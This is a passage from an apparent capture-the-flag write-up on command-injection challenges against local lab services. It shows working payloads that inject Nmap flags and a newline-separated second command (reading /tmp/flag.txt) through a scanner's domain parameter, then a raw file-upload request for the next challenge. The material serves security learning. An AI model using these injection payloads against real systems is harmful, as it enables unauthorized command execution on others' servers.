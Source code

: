 ```{% raw %}

```{% raw %}
http://127.0.0.1:8084/index.php?domain=google.com&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce4-001.png)

My first thought here was to use the `/tmp/flag.txt` as input to Nmap with `-iL` and then some other flag that would get the target to be printed.

We can confirm flags are accepted by Nmap doing something like `--iflist` which will produce some output no matter what.

```{% raw %}
http://127.0.0.1:8084/index.php?domain=--iflist&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce4-002.png)

I could not figure out how to make it happen with Nmap flags.

A totally different idea - maybe chaining commands isn't dead. Newline?

```{% raw %}
http://127.0.0.1:8084/index.php?domain=google.com%0Acat%20/tmp/flag.txt&submit=Scan
{% endraw %}```

Yep.

![RCE Cornucopia](/img/rce-cornucopia/rce4-003.png)

# Challenge 5

![RCE Cornucopia](/img/rce-cornucopia/rce5-000.png)

Uploading a file, the POST request looks like the typical `multipart/form-data` variety.

```{% raw %}
POST http://127.0.0.1:8085/index.php HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://127.0.0.1:8080/
Content-Type: multipart/form-data; boundary=---------------------------35851058717958058741374149380
Content-Length: 494
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Host: 127.0.0.1:8085

-----------------------------35851058717958058741374149380
Content-Disposition: form-data; name="MAX_FILE_SIZE"

300000
-----------------------------35851058717958058741374149380
Content-Disposition: form-data; name="userfile"; filename="test.txt"
Content-Type: text/plain

what if i'm just a test file :'(

-----------------------------35851058717958058741374149380
Content-Disposition: form-data; name="submit"

Scan
```